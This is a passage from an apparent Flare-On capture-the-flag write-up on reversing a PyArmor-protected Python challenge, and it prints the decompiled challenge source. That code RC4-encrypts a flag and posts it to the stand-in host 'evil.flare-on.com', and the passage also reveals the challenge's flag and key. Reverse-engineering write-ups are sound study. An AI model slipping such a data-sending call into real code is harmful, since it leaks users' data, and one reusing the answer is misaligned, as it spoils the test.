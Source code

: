 ```python
        code[i] = opcode_mixer.index(new_mixer.index(code[i]))
```

Now we can run pycdc on it. Decompyle3 complained, so pycdc was the only option. Not the greatest output (I cleaned it up a bit) but it's readable enough.

```python
import crypt
import base64
import requests

config = {
    'url': 'http://www.evil.flare-on.com',
    'flag': b'Pyth0n_Prot3ction_tuRn3d_Up_t0_11@flare-on.com',
    'key': b'PyArmor_Pr0tecteth_My_K3y'
}

cipher = crypt.ARC4(config['key'])
flag = base64.b64encode(cipher.encrypt(config['flag']))

try:
    requests.post(config['url'], data = { 'flag': flag })
except requests.exceptions.RequestException:
    e = None
    try:
        pass
    finally:
        e = None
        del e
except Exception:
    e = None
    try:
        pass
    finally:
        e = None
        del e
```

The source code: https://github.com/nesrak1/bonedensity